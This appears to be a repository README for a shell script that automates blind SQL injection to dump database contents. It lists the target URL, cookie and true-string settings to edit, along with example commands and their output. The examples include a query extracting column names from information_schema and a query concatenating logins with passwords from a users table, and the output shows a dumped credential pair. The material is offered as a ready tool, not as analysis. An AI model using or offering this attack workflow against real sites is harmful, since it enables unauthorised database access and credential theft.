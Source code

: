 # blind_sqli
This basic script can be used to automate the process of exploiting blind SQL Injection to dump data

### Note: Change the following fields

1. URL="http://host.com/vuln.php?id=1'"
2. TRUESTRING="the output/partial output when condition is true"
3. Cookie="name:value"

![Screenshot](note.png)

### To run this file basic syntax is as follows:

`sqli_script.sh <expected size of output> "<sql query>"`
Example:

`./sqli_script.sh 20 "select column_name from information_schema.columns where table_name='users' limit 1,1`

### output:

extracting results for select column_name from information_schema.columns where table_name='users' limit 1,1

Result: login



`./sqli_script.sh 20 "select concat(login,'---',password) from users limit 0,1"`

### output:

extracting results for select concat(login,'---',password) from users limit 0,1

Result: A.I.M.---6885858486f

